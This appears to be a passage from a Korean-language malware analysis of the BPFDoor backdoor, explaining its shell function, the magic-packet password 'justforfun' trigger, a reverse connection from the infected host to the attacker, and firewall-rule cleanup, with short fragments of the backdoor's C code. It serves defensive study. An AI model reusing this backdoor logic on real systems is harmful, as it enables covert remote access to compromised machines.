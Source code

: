 6. **shell 함수 호출 및 클라이언트 소켓 닫기**

    ```c
    shell(sock, rcmd, dcmd);
    close(sock);
    ```

    - 생성한 클라이언트 소켓 fd(`sock`), 포트 리다이렉션 NAT 규칙 제거 명령 문자열(`rcmd`), TCP 연결 허용 규칙 제거 명령 문자열(`dcmd`)을 인자로 하여 `shell` 함수를 실행한다.
    - 이후에 클라이언트 소켓 닫는다.

### **주요 함수 분석) shell**

- shell 함수는 다음의 2개의 위치에서 호출된다.
    1. `packet_loop` 함수 내에서 매직 패킷을 통해 전달된 비밀번호 값이 `justforfun`일 때, `try_link` 함수를 통해 생성된 TCP 소켓 인자로 하여 `rcmd`, `dcmd` 지정 없이 호출

        ```c
        scli = try_link(bip, mp->port);
        if (scli > 0)
            shell(scli, NULL, NULL);
        ```

        - 여기서 전달되는 `scli` 소켓은 다음의 상태를 가진다
            1. 연결을 시도하는 IP 주소
                - `magic_packet`에 지정된 IP 주소(`mp→ip`)

                or

                - 공격자의 IP 주소(`ip→ip_src.s_addr`)
            2. 연결을 시도하는 port
                - `mp->port`
            3. 최종 연결 방향

                BPFDoor가 설치된 시스템 (클라이언트) → 공격자(서버)


    2. `getshell` 함수 내부

1. **함수 시그니처**

    ```c
    int shell(int sock, char *rcmd, char *dcmd)
    ```

    - `sock`: 공격자와 통신하기 위해 이미 연결된 TCP 소켓의 파일 디스크립터
    - `rcmd`, `dcmd`: `getshell` 함수에서  전달되는 인자를 처리하기 위한 변수로, shell 함수 동작 후 가장 먼저 `system()` 함수를 통하여 실행한다.

2. **환경 변수 및 쉘 인자 설정**

    ```c
    int subshell;
    fd_set fds;
    char buf[BUF];
    ...
    envp[5] = term;
    envp[6] = NULL;
    ```
